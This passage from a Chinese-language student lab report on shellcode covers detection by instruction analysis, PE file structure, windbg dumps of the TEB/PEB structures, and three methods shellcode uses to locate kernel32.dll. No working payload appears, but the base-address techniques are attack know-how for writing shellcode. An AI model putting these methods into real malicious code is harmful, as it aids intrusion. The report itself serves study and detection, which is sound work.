- 直接调用：call xxxxxxxx
- 间接调用：call eax、call dword ptr[xxxxxxxx]
- 直接跳转：jmp xxxxxxxx
- 间接跳转：jmp eax、jmp dword ptr[xxxxxxxx]
- 条件转移指令：jnz xxxxxxxx

4、判断目的地址是否为API调用，获得参数信息：分析目的地址所属的动态链接库范围，根据所属动态链接库和相应的API信息库，判断是否为API调用。

5、分析API参数信息：利用API信息库，获得相应API的参数数目、类型及参数信息。

综上，对于一段待分析的程度代码，先经过内存搜索识别，再进行代码自修改识别，最后进行功能分析，从而能够实现对shellcode的识别和检测。

### 八、补充

**1、PE文件介绍**

```PE文件```是Windows下可执行文件的总称，常见的有：
- dll
- exe
- ocx
- sys

事实上，一个文件是否是PE文件与其扩展名无关，PE文件可以是任何扩展名。

PE文件结构：（图源网络）



- DOS头：用来兼容MS-DOS操作系统，指明NT头在文件中的位置
- NT头：包含PE文件的主要信息，其中包括一个```PE```字样的签名，PE文件头和PE可选头
- 节表：是PE文件后续节的描述，windows根据节表的描述加载每个节
- 节：每个节相当于一个容器，可以包含代码、数据等等，每个节可以有独立的内存权限。

当一个PE文件被加载到内存中以后，称之为```映像```。一般地，PE文件在硬盘上和在内存里是不完全相同的，被加载到内存以后其占用的虚拟地址空间要比在硬盘上占用的空间大一些。这是因为：各个节在硬盘上是连续的，而在内存中是按页对齐的。

由于内存中存在这种对齐现象，在PE结构内部，表示某个位置的地址采用了两种方式：
- 在硬盘上存储文件中的地址，即原始存储地址或物理地址，表示距离文件头的偏移。
- 加载到内存以后映像中的地址，即相对虚拟地址，表示相对内存映像头的偏移。

**2、TEB**

首先需要了解```TEB```，即当前线程环境块，使用windbg查看PE文件：

```txt
0:000> dt _teb  
ntdll!_TEB
   +0x000 NtTib            : _NT_TIB
   +0x01c EnvironmentPointer : Ptr32 Void
   +0x020 ClientId         : _CLIENT_ID
   +0x028 ActiveRpcHandle  : Ptr32 Void
   +0x02c ThreadLocalStoragePointer : Ptr32 Void
   +0x030 ProcessEnvironmentBlock : Ptr32 _PEB
```

上面所显示的```0x030```是PEB结构体在内存的地址。

查看PEB结构：

```txt
0:000> dt _peb
ntdll!_PEB
   +0x000 InheritedAddressSpace : UChar
   +0x001 ReadImageFileExecOptions : UChar
   +0x002 BeingDebugged    : UChar
   +0x003 BitField         : UChar
   +0x003 ImageUsesLargePages : Pos 0, 1 Bit
   +0x003 IsProtectedProcess : Pos 1, 1 Bit
   +0x003 IsLegacyProcess  : Pos 2, 1 Bit
   +0x003 IsImageDynamicallyRelocated : Pos 3, 1 Bit
   +0x003 SkipPatchingUser32Forwarders : Pos 4, 1 Bit
   +0x003 SpareBits        : Pos 5, 3 Bits
   +0x004 Mutant           : Ptr32 Void
   +0x008 ImageBaseAddress : Ptr32 Void
   +0x00c Ldr              : Ptr32 _PEB_LDR_DATA
```

上面所显示的```0x00c```是PEB_LDR_DATA结构体在内存的地址。

查看PEB_LDR_DATA结构：

```txt
0:000> dt _PEB_LDR_DATA
ntdll!_PEB_LDR_DATA
   +0x000 Length           : Uint4B
   +0x004 Initialized      : UChar
   +0x008 SsHandle         : Ptr32 Void
   +0x00c InLoadOrderModuleList : _LIST_ENTRY
   +0x014 InMemoryOrderModuleList : _LIST_ENTRY
   +0x01c InInitializationOrderModuleList : _LIST_ENTRY
   +0x024 EntryInProgress  : Ptr32 Void 
   +0x028 ShutdownInProgress : UChar
   +0x02c ShutdownThreadId : Ptr32 Void
```

可以看到，在PEB_LDR_DATA结构中，又包含三个LIST_ENTRY结构体：
- 模块加载顺序：InLoadOrderModuleList
- 模块在内存中的顺序：InMemoryOrderModuleList
- 模块初始化装载顺序：InInitializationOrderModuleList

```txt
0:000> dt _LIST_ENTRY
ntdll!_LIST_ENTRY
   +0x000 Flink            : Ptr32 _LIST_ENTRY
   +0x004 Blink            : Ptr32 _LIST_ENTRY
```

可用于查找kernel32.dll基地址。

**3、关于如何获取kernel32.dll基地址**

问题：为什么要先获取kernel32.dll基地址？

- 因为在获得kernel32.dll基地址后，就可以获得LoadLibrary函数来继续加载其他的动态链接库，再通过GetProcAddress来获得相应需要的API函数地址，所有的函数均可以自己动态获取并填充，实现了可移植性要求。

三种常用的获取kernel32.dll基地址的方法：

第一种：

通过线程初始化时，获得esp堆栈指针中的ExitThread函数的地址，然后通过搜索获得到kernel32.dll的基地址。

线程在被初始化时，其堆栈指针指向ExitThread函数的地址，可通过通过ret返回时来调用ExitThread地址。所以一般情况下，可以在主线程的起始位置(也就是程序入口点处)通过获得堆栈指针中ExitThread函数。直接通过```mov edx,[esp]```获得堆栈指针中ExitThread地址到edx寄存器。因为ExitThread地址在kernel32.dll空间中，所以可以通过它往上搜索来获得基地址。

第二种：

遍历seh异常链，获得EXCEPTION_REGISTRATION结构prev为-1的异常处理过程地址，这个异常处理过程地址是位于kernel32.dll，通过它搜索得到kernel32.dll的基地址

遍历时，由于[fs:0]的ExceptionList指向EXCEPTION_REGISTRATION结构，所以通过[fs:0]获得EXCEPTION_REGISTRATION结构后，判断prev成员是否是-1，如果是的话则取异常处理过程地址，然后进行搜索。

第三种：

通过TEB获得PEB结构地址，然后再获得PEB_LDR_DATA结构地址，然后遍历模块列表，查找kernel32.dll模块的基地址

### 九、总结

此次实验报告较为全面地分析了shellcode技术。首先从了解shellcode基础概念入手；基本了解了shellcode是什么之后，做了一些简单的shellcode实践，从而对shellcode技术有了更深一层的理解；接着对shellcode对缓冲区溢出的利用进行了解；有了一定的基础知识后，结合成型的漏洞分析报告，对一个经典的栈溢出漏洞进行了分析；分析了一个负载于JPEG图片格式的RAR文件中的shellcode；分析了一个HWP漏洞样本的shellcode，对shellcode的理解更为灵活；知道了一些漏洞利用方式后，基于一篇论文对shellcode的识别检测技术进行了学习，了解了一个识别和阻断shellcode的方式；以及在学习的过程中，不断扩充知识储备，又复习了一遍PE文件格式，以及学习了如何获取kernel32.dll基地址的方法。

### 十、参考链接
1、[Shellcoding for Linux and Windows Tutorial](http://www.vividmachines.com/shellcode/shellcode.html)

2、[kernel32基地址获得](https://blog.csdn.net/whypp/article/details/5681172)

3、[缓冲区溢出攻击](http://www.cnblogs.com/fanzhidongyzby/archive/2013/08/10/3250405.html)